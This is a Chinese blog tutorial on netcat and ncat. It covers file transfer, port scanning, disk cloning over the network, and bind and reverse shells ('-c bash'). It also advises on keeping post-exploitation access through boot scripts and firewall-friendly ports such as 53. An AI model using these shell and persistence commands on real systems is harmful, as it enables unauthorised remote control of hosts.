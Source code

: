 ```yaml
---
layout: post
title: "nc、ncat使用"
date: 2022-07-27
tags: [kali, 渗透测试]
comments: true
toc: true
author: JumpWang

---
```


## natcat

> [v1.10-41.1+b1]
> connect to somewhere:   nc [-options] hostname port[s] [ports] ...
> listen for inbound:     nc -l -p port [-options] [hostname] [port]
> options:
>      -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
>      -e filename             program to exec after connect [dangerous!!]
>      -b                      allow broadcasts
>      -g gateway              source-routing hop point[s], up to 8
>      -G num                  source-routing pointer: 4, 8, 12, ...
>      -h                      this cruft
>      -i secs                 delay interval for lines sent, ports scanned
>      -k                      set keepalive option on socket
>      -l                      listen mode, for inbound connects
>      -n                      numeric-only IP addresses, no DNS
>      -o file                 hex dump of traffic
>      -p port                 local port number
>      -r                      randomize local and remote ports
>      -q secs                 quit after EOF on stdin and delay of secs
>      -s addr                 local source address
>      -T tos                  set Type Of Service
>      -t                      answer TELNET negotiation
>      -u                      UDP mode
>      -v                      verbose [use twice to be more verbose]
>      -w secs                 timeout for connects and final net reads
>      -C                      Send CRLF as line-ending
>      -z                      zero-I/O mode [used for scanning]
> port numbers can be individual or ranges: lo-hi [inclusive];
> hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

- 可用于电子取证

  实际上是传输文本的能力，~~可以用于聊天~~、从被取证对象上收集信息

  pc1：监听4444端口

  ```sh
  nc -l -p 4444
  ```

  pc2：连接目标网址的4444端口

  ```sh
  nc -nv 10.139.21.74 4444
  ```

- 传输文件

  A等B连上并将发送的数据存到1.mp4

  A：

  ```sh
  nc -lp 4444 > 1.mp4
  ```

  B：

  ```sh
  nc -nv 1.1.1.1 4444 < 1.mp4 -q 1
  ```

  -q 1 表示发送完1s自动关闭

  A等B连上一连上就向B发送mp4

  A:

  ```sh
  nc -lp 4444 < 1.mp4 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444
  ```

- 传输目录

  A:

  ```sh
  tar -cvf -music/ | nc -lp 4444 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | tar -xvf -
  ```

- 传输加密文件（使用mcrypt命令）

  A:

  ```sh
  nc -lp 4444 | mcrypt -flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
  ```

  B:

  ```sh
  mcrypt -flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 1.1.1.1 4444 -q 1
  ```

- 流媒体服务器

  A:

  ```sh
  cat 1.mp4 | nc -lp 4444
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | mplayer -vo xll -cache 3000 -
  ```

- 端口扫描

  -z：扫描模式，探测端口状态

  ```sh
  nc -nvz 1.1.1.1 1-65535
  ```

  -u：nc默认扫描tcp，扫描udp需要使用-u

  ```sh
  nc -vnzu 1.1.1.1 1-1024
  ```

  但我在尝试的时候发现nc多个端口并没有任何回显，不知道是什么原因

- 远程克隆硬盘

  nc还是只起到传输的作用，关键在于`dd`命令，会原原本本的复制硬盘，复制每一个1和0，包括已删除的部分

  ```sh
  nc -lp 4444 | dd of=/dev/sda
  dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
  ```

- 运程控制

  ​	在成功通过漏洞进入目标主机后，可以通过这种方式继续保持连接，比如设置脚本在每次开机的时候使用。尤其是反向连接用处很大。

  ​	因为服务器基本上都配置了防火墙，像很多防护做的不太好的网络管理员也会在防火墙上将由外向内的陌生端口访问全部禁掉。比如只开放80端口，443端口之类的，这种情况下想要在目标主机开放一个端口等待连接，我们基本上是连接不上的（被防火墙过滤）。但是由内向外的访问这些防火墙不会阻止，反向连接就有了用场。

  ​	有些防护意识很好的管理员会禁用一些由内向外的访问的端口，但是像常用的端口也不会进行拦截，比如DNS解析用的53端口，我们就可以开放53端口等待连接。

  ​	如果是跑业务的服务器，向外的所有端口都被禁止了，那就没办法了。

  - 正向

    A：

    ```sh
    nc -lp 4444  -c bash
    ```

    B: 

    ```sh
    nc 1.1.1.1 4444
    ```

  - 反向

    A:

    ```sh
    nc -lp 4444
    ```

    B:

    ```sh
    nc 1.1.1.1 4444 -c bash
    ```

    nc是跨平台的，windows这里将bash换为cmd

## ncat

 nc的缺点：

- 明文传输，缺乏加密能力，可能遭受到嗅探、中间人的挟持等等等
- 缺乏身份验证的能力，打开的端口可以被所有人控制，我们留下的通道其他黑客也能使用

ncat是nmap内包含的一个工具，是为了弥补nc的缺陷被开发出来的，使用ncat进行信息传输，传输的管道本身是被加密的

A（被控端）：

`--allow`是指定一个ip，允许这个ip连接

```sh
ncat -c bash --allow 1.1.1.1 -vnl 4444 --ssl
```

B：

```sh
ncat -nv 1.1.1.1 4444 --ssl
```

# 
